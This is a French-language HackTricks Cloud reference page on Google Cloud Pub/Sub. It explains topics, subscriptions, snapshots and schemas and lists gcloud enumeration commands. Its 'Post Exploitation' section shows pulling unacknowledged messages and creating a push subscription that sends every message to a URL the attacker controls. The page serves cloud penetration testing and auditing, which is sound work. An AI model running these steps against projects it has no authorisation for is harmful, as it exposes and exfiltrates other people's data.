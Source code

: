 # GCP - Pub/Sub

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Pub/Sub <a href="#reviewing-cloud-pubsub" id="reviewing-cloud-pubsub"></a>

Google [**Cloud Pub/Sub**](https://cloud.google.com/pubsub/) est un service qui permet à des applications indépendantes d'**envoyer des messages** de manière bidirectionnelle. En gros, il y a des **sujets** auxquels les applications peuvent **s'abonner** pour envoyer et recevoir des **messages** (qui sont composés du contenu du message et de certaines métadonnées).

Le **sujet est la file d'attente** où les messages vont être envoyés, tandis que les **abonnements** sont les **objets** que les utilisateurs vont utiliser pour **accéder aux messages dans les sujets**. Il peut y avoir plus d'**1 abonnement par sujet** et il existe 3 types d'abonnements :

* **Pull** : L'utilisateur(s) de cet abonnement doit tirer les messages.
* **Push** : Un point de terminaison URL est indiqué et les messages y seront envoyés immédiatement.
* **Table de grande requête** : Comme push mais en plaçant les messages à l'intérieur d'une table de grande requête.

Par **défaut**, un message est **conservé pendant 7 jours**, mais ce délai peut être **augmenté jusqu'à 31 jours**. De plus, s'il n'est pas **ACKed en 10s**, il retourne dans la file d'attente.

Un sujet est par défaut chiffré en utilisant une **clé de chiffrement gérée par Google**. Mais une **CMEK** (Clé de Chiffrement Gérée par le Client) de KMS peut également être sélectionnée.

**Lettre morte** : Les abonnements peuvent configurer un **nombre maximum de tentatives de livraison**. Lorsqu'un message ne peut pas être livré, il est **republié dans le sujet de lettre morte spécifié**.

### Sauvegardes & Schémas

Les sujets peuvent avoir des **sauvegardes** et vous pourriez être capable de trouver plus d'**informations sensibles anciennes là-dedans**. Les sauvegardes maintiennent les msgs **non ACKed** du moment où elles sont prises et les messages qui suivent (et par défaut, elles vivent pendant une semaine).

Lors de la création d'un sujet, vous pouvez indiquer que les **messages du sujet doivent suivre un schéma**.

### Énumération
```bash
# Get a list of topics in the project
gcloud pubsub topics list
gcloud pubsub topics describe <topic>
gcloud pubsub topics list-subscriptions <topic>
gcloud pubsub topics get-iam-policy <topic>

# Get a list of subscriptions across all topics
gcloud pubsub subscriptions list
gcloud pubsub subscriptions describe <subscription>
gcloud pubsub subscriptions get-iam-policy <subscription>

# Get list of schemas
gcloud pubsub schemas list
gcloud pubsub schemas describe <snapshot>

# Get list of snapshots
gcloud pubsub snapshots list
gcloud pubsub snapshots describe <snapshot>
```
Cependant, vous pourriez obtenir de meilleurs résultats en [**demandant un ensemble de données plus large**](https://cloud.google.com/pubsub/docs/replay-overview), y compris des messages plus anciens. Cela nécessite certaines conditions préalables et pourrait avoir un impact sur les applications, alors assurez-vous de vraiment savoir ce que vous faites.

### Post Exploitation

{% code overflow="wrap" %}
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"

# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create my_subscription --topic <topic_name>
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>

# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint <URL to push to>
```
{% endcode %}

## Pub/Sub Lite

[**Pub/Sub Lite**](https://cloud.google.com/pubsub/docs/choosing-pubsub-or-lite) est un service de messagerie avec **stockage zonal**. Pub/Sub Lite **coûte une fraction** de Pub/Sub et est destiné aux pipelines de **streaming à haut volume** (jusqu'à 10 millions de messages par seconde) et aux systèmes événementiels où le faible coût est la considération principale.

Dans PubSub Lite, il y a des **topics** et des **abonnements**, il n'y a pas de **sauvegardes** ni de **schémas** et il y a :

* **Réservations** : Les réservations Pub/Sub Lite est une fonctionnalité qui permet aux utilisateurs de réserver une capacité dans une région spécifique pour leurs flux de messages.
* **Opérations** : Fait référence aux actions et tâches impliquées dans la gestion et l'administration de Pub/Sub Lite.

### Énumération
```bash
# lite-topics
gcloud pubsub lite-topics list
gcloud pubsub lite-topics describe <topic>
gcloud pubsub lite-topics list-subscriptions <topic>

# lite-subscriptions
gcloud pubsub lite-subscriptions list
gcloud pubsub lite-subscriptions describe <subscription>

# lite-reservations
gcloud pubsub lite-reservations list
gcloud pubsub lite-reservations describe <topic>
gcloud pubsub lite-reservations list-topics <topic>

# lite-operations
gcloud pubsub lite-operations list
gcloud pubsub lite-operations describe <topic>
```
<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

